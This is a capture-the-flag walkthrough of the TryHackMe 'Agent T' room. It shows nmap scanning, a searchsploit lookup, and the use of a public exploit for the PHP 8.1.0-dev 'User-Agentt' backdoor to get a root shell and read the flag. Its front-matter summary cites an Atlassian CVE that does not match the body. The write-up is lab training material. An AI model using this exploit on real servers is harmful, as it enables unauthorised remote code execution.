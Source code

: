```yaml
---
weight: 3
title: "CTF writeup - TryHackMe - Agent T"
date: 2022-09-03
lastmod: 2022-09-03T19:16:40+08:00
description: "Saturday night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Linux"]
categories: ["Writeups"]

lightgallery: false
summary: This is a short walkthrough of how to exploit, threat hunt & remediate the Atlassian CVE-2022-26134.
---
```

# TryHackMe: Agent T

![Untitled](agent_t/Untitled.png)

# Scanning & Enumeration

## NMAP

```bash
└─$ nmap -A -T4 -F $IP
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2022-08-30 10:05 EDT
Nmap scan report for 10.10.144.112
Host is up (0.060s latency).
Not shown: 99 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

A quick Nmap scan reveals that this host only has 1 service running. Apparently a web server of some sort with an exposed administrator dashboard. The header response shows us that it uses **PHP 8.1.0-dev.**

## Searchsploit

Searching for this in searchsploit tells us that it has an exploit available, utilzing a built-in backdoor. That is pretty serious!

```bash

└─$ searchsploit PHP 8.1.0 dev

---

Exploit Title                                                                             |  Path

---

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                        | php/webapps/49933.py

---

Shellcodes: No Results
```

> An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
> 

# Gaining access

After running the python script and abusing the backdoor exploit, we immediately spawn a root shell. This makes it simple to retrieve the root flag.

```bash
┌──(kali㉿kali)-[~/tryhackme/flatline]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
[http://10.10.144.112](http://10.10.144.112/)

Interactive shell is opened on [http://10.10.144.112](http://10.10.144.112/)
Can't acces tty; job crontol turned off.
$ whoami
root
$ cat /flag.txt
~~flag{4127d0530abf16d6d23973e3df8dbecb}~~
```